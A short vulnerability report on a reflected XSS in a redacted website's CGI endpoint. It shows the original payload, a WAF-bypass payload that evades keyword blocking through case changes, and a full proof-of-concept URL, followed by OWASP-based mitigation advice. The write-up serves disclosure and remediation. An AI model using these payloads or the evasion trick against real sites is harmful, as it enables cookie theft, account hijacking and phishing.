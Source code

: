 ﻿# Reflected XSS on \[REDACTED]

*This is an update to the [first XSS](XSS_%5BREDACTED%5D.md) that I found on this website.*

## Summary:

The XSS vulnerability still exists, but the WAF (Web Application Firewall) has been updated to block JavaScript keywords. This is not a proper solution, as an attacker can modify the old payload to bypass the WAF.

```javascript
// Old payload
// Now, [REDACTED] blocks the words 'script' and 'alert', so this won't work
text'}self['alert'](document.domain);</script>

// New payload
// No 'alert' or 'script' (case sensitive), so this payload works
'}self['alErt'.toLowerCase()](document.domain);if(1){//
```

### [Proof of concept](https://[REDACTED]/SRVS/CGI-BIN/WEBCGI.EXE?New,Kb=igud_bashan,Company=%7B8A245F94-C1FF-4E54-9373-F308EA45FF27%7D,varset_site=%27%7Dself%5B%27alErt%27.toLowerCase%28%29%5D%28document.domain%29;if%281%29%7B//)

![](XSS_[REDACTED]_2.jpg)

## Impact

Arbitrary JavaScript code execution. In my proof of concept, it prints the domain. However, an attacker could send `document.cookie` to himself in order to hijack accounts, or they could display a phishing page.

## Mitigation / Solution

*Sanitize all parameters* before using them (more information at the [OWASP page regarding XSS prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#output-encoding)).

JavaScript contexts:

> Encode all characters using the `\xHH` format.

HTML contexts:

```
&    &amp;
<    &lt;
>    &gt;
"    &quot;
'    &#x27;
```
